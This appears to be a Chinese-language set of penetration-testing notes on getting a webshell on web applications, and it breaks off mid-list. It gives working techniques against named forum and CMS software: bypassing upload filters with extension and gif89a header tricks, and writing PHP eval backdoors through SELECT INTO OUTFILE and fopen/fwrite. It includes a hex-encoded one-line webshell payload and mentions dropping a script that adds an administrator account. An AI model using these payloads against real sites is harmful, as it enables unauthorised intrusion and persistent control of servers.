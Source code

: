 	getshell
		管理员后台getshell
		文件包含getshell
		命令执行
		远程命令执行exp
		
	提权
		Windows、Linux
	
	内网渗透
		ipc$
		

sql注入
{
	
}



获取webshell思路
{
	1.直接上传webshell
	{
	这种对php和jsp的一些程序比较常见，MolyX BOARD就是其中一例，直接在心情图标管理上传。php类型，虽然没有提示，其实已经成功了，上传的文 件url应该是http://forums/images/smiles/下，前一阵子的联众游戏站和网易的jsp系统漏洞就可以直接上传jsp文件。文 件名是原来的文件名，bo-blog后台可以可以直接上传。php文件，上传的文件路径有提示。以及一年前十分流行的upfile.asp漏洞（动网 5.0和6.0、早期的许多整站系统），因过滤上传文件不严，导致用户可以直接上传webshell到网站任意可写目录中，从而拿到网站的管理员控制权 限。
	}
	2.在管理员后台修改上传类型，之后上传webshell
	{
		现在很多的脚本程序上传模块不是只允许上传合法文件类型，而大多数的系统是允许添加上传类型，bbsxp后台可以添加asa|asP类 型，ewebeditor的后台也可添加asa类型，通过修改后我们可以直接上传asa后缀的webshell了，还有一种情况是过滤了。asp，可以添 加。aspasp的文件类型来上传获得webshell.php系统的后台，我们可以添加。php.g1f的上传类型，这是php的一个特性，最后的哪个 只要不是已知的文件类型即可，php会将php.g1f作为。php来正常运行，从而也可成功拿到shell.LeadBbs3.14后台获得 webshell方法是：在上传类型中增加asp ，注意，asp后面是有个空格的，然后在前台上传ASP马，当然也要在后面加个空格！
	}
	3.上传图片或其他变种一句话，之后文件包含
	
	4.sql语句写入一句话
	{
		后台需要有mysql数据查询功能，我们就可以利用它执行SELECT …… INTO OUTFILE查询输出php文件，因为所有的数据是存放在mysql里的，所以我们可以通过正常手段把我们的webshell代码插入mysql在利用 SELECT …… INTO OUTFILE语句导出shell.在mysql操作里输入select 0x3C3F6576616C28245F504F53545B615D293B3F3E from mysql.user into outfile '路径‘ 就可以获得了一个<？eval（$_POST[a]）；？>的最小马' 0x3C3F6576616C28245F504F53545B615D293B3F3E 是我们<？eval（$_POST[a]）；？>的十六进制，这种方法对phpmyadmin比较普遍，先利用phpmyadmin的路径泄 露漏洞，比较典型的 是http://url/phpmyadmin/libraries/select_lang.lib.php.

		就可以暴出路径，php环境中比较容易暴出绝对路径：）。提一点的是遇到是mysql在win系统下路径应该这样写d：\\wwwroot \\a.php.下面的方法是比较常用的一个导出webshell的方法，也可以写个vbs添加系统管理员的脚本导出到启动文件夹，系统重起后就会添加一 个管理员帐号CREATE TABLE a（cmd text NOT NULL）

		INSERT INTO a（cmd） VALUES（'<？fputs（fopen（"./a.php"，"w"），"<？eval（\$_POST[a]）；？>"）？>'）

		select cmd from a into outfile '路径/b.php' DROP TABLE IF EXISTS a访问b.php就会生成一个<？eval（$_POST[a]）；？>的最小马。

		如果遇到可以执行php命令就简单多了，典型的代表是BO-BLOG，在后台的php命令框输入以下代码：

		<？$sa = fopen（"./up/saiy.php"，"w"）；fwrite（$sa，"<？eval（\$_POST[a]）；？".">"）；fclose（$sa）；？>

		就会在up目录下生成文件名为saiy.php内容为<？eval（$_POST[a]）；？>的最小php木马，最后用lanker 的客户端来连接。实际运用中要考虑到文件夹是否有写权限。或者输入这样的代 码<？fputs（fopen（"./a.php"，"w"），"<？eval（\$_POST[a]）；？>"）？> 将会在当前目录生成一个a.php的最小马。
	}
	5.备份恢复数据库为一句话
	{
		主要是利用后台对access数据库的“备份数据库”或“恢复数据库”功能，“备份的数据库路径”等变量没有过滤导致可以把任意文件后缀改 为asp，从而得到webshell，msssql版的程序就直接应用了access版的代码，导致sql版照样可以利用。还可以备份网站asp文件为其 他后缀 如。txt文件，从而可以查看并获得网页源代码，并获得更多的程序信息增加获得webshell的机会。在实际运用中经常会碰到没有上传功能的时 候，但是有asp系统在运行，利用此方法来查看源代码来获得其数据库的位置，为数据库插马来创造机会，动网论坛就有一个ip地址的数据库，在后台的ip管 理中可以插入最小马然后备份成。asp文件即可。在谈谈突破上传检测的方法，很多asp程序在即使改了后缀名后也会提示文件非法，通过在。asp文件头加 上gif89a修改后缀为gif来骗过asp程序检测达到上传的目的，还有一种就是用记事本打开图片文件，随便粘贴一部分复制到asp木马文件头，修改 gif后缀后上传也可以突破检测，然后备份为。asp文件，成功得到webshell.
	}
	6.利用数据库压缩功能
	{
